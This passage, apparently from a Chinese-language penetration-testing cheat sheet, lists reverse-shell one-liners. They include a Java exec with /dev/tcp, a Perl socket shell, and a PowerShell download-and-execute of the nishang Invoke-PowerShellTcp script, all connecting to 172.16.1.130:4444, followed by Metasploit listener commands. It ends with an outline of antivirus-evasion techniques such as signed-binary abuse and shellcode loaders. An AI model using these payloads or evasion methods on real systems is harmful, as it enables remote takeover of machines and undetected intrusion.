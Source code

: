 ```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/172.16.1.130/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### perl 脚本反弹

```perl
perl -e 'use Socket;$i="172.16.1.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### powershell

目标机器执行

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.1.130 -port 4444
```

### msfvenom 获取反弹一句话

msf支持多种反弹方式，比如exe ps php asp aspx甚至是ruby等，我们可以用msfvenom来生成payload，然后在msf中监听，执行之后就会反弹回来session

生成payload的方法参考[生成msf常用payload](http://www.myh0st.cn/index.php/archives/67/)，不再赘述

然后msf监听

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.1.130
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

---

那么讲到这里我们把一句话反弹shell的方式讲的差不多了，但是到这里我们又涉及到了一个免杀的问题。

我们首先需要知道的是目前的反病毒软件查杀，常见的有三种：

1. 基于文件特征
2. 基于文件行为
3. 基于云查杀 实际也是基于特征数据库的查杀

到目前为止，我所知道的免杀姿势有以下几种

1. Windows白名单 俗称白加黑 也就是用带有微软签名的软件来运行我们自己的shellcode
2. payload分离免杀 比如shellcode loader
3. 换一门偏僻的语言来自己写反弹shell

